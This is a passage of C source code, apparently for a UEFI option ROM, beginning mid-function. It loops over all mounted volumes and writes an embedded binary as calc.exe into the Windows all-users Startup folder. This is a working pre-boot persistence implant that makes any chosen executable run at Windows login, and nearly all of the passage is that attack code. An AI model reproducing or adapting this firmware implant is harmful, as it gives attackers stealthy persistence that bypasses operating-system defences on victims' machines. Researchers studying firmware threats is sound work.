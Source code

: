 ```c
    for (i = 0; i < HandleCount; i++) {
      EFI_SIMPLE_FILE_SYSTEM_PROTOCOL *SimpleFs = NULL;
      EFI_FILE_PROTOCOL *File = NULL;

      // Get protocol pointer for current volume
      Status = gBS->HandleProtocol(HandleBuffer[i],
                                   &gEfiSimpleFileSystemProtocolGuid,
                                   (VOID **)&SimpleFs);
      if (EFI_ERROR(Status)) {
#ifdef OPROM_DEBUG
        Print(L"FindWritableFs: gBS->HandleProtocol[%d] returned %r\n", i,
              Status);
#endif
        continue;
      }

      // Open the volume
      Status = SimpleFs->OpenVolume(SimpleFs, &Fs);
      if (EFI_ERROR(Status)) {
#ifdef OPROM_DEBUG
        Print(L"FindWritableFs: SimpleFs->OpenVolume[%d] returned %r\n", i,
              Status);
#endif
        continue;
      }

      // Try opening calc.exe file for writing
      Status = Fs->Open(
          Fs, &File,
          L"ProgramData\\Microsoft\\Windows\\Start "
          L"Menu\\Programs\\StartUp\\calc.exe",
          EFI_FILE_MODE_CREATE | EFI_FILE_MODE_READ | EFI_FILE_MODE_WRITE, 0);
      if (EFI_ERROR(Status)) {
#ifdef OPROM_DEBUG
        Print(L"FindWritableFs: Fs->Open[%d] returned %r\n", i, Status);
#endif
        continue;
      }

      UINTN bufSz = sizeof(calc_exe);
      Status = File->Write(File, &bufSz, calc_exe);

      if (EFI_ERROR(Status)) {
#ifdef OPROM_DEBUG
        Print(L"Error with file->write %r\n", Status);
#endif
      }
      File->Close(File);

      Status = EFI_SUCCESS;
    }
  }
}
```
